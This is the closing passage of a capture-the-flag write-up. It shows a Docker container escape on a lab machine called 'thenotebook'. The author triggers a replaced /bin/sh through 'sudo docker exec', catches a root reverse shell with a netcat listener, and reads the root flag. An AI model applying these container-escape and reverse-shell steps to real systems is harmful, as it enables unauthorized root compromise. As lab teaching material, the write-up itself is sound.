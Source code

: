 - Once the exploit replaces the file `/bin/sh` with the malicious script, execute the command line below to trigger the exploration

```bash
sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

After this execution, was received a reverse shell in the listener previously configured and was able to get the root's flag

```bash
$ sudo nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.230] 35856
bash: cannot set terminal process group (1617): Inappropriate ioctl for device
bash: no job control in this shell
<4de4eaff90e275467ff2103ff7b6eb2b1ffaf63d44f72a2b2# id
id
uid=0(root) gid=0(root) groups=0(root)
root@thenotebook:/root# cat root.txt
\cat root.txt
<redacted>
```

I hope you guys have enjoyed it!

See you in the next post :smiley:
